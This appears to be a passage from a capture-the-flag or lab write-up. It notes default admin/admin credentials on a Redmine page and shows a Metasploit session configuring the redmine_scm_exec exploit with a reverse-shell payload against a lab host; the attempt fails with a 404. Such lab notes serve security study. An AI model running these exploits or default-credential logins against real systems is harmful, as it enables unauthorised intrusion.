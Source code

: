![Screenshot 2023-10-18 at 10.25.20.png](Peppo%203686053f39664308a95784e6e3c84088/Screenshot_2023-10-18_at_10.25.20.png)

The Redmine page allows you login as admin with a password “admin” however I couldn’t find anything useful here.

```bash
msf6 exploit(unix/webapp/redmine_scm_exec) > show options

Module options (exploit/unix/webapp/redmine_scm_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Me
                                       tasploit
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   URI      /projects/1/     yes       The full URI path to the project
   VHOST                     no        HTTP server virtual host

Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.211.55.20     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic

msf6 exploit(unix/webapp/redmine_scm_exec) > set LSHOT 192.168.45.240
LSHOT => 192.168.45.240
msf6 exploit(unix/webapp/redmine_scm_exec) > set RHOST 192.168.239.60
RHOST => 192.168.239.60
msf6 exploit(unix/webapp/redmine_scm_exec) > set RPORT 8080
RPORT => 8080
msf6 exploit(unix/webapp/redmine_scm_exec) > run

[*] Started reverse TCP double handler on 10.211.55.20:4444 
[*] The server returned: 404 Not Found 
[*] Exploit completed, but no session was created.
```
